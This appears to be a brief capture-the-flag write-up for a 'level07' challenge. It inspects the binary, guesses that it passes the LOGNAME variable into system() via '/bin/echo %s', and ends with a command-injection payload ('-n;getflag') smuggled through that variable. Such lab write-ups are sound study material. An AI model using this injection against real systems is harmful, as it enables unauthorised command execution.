 ### Documentation
*None*

### Exploit
1. `./level07`
   ```bash
   level07
   ```

2. `xdd ./level07 | less`
   ```
   asprintf.getenv.
   system
   [...]
   LOGNAME./bin/echo %s
   ```

3. `LOGNAME=hello && ./level07`
   ```bash
   hello

   # GUESS
   # char *cmd = NULL;
   # 
   # asprintf(&cmd, "/bin/echo %s", getenv("LOGNAME"))
   # system(cmd);
   ```

4. `LOGNAME='-n;getflag' && ./level07`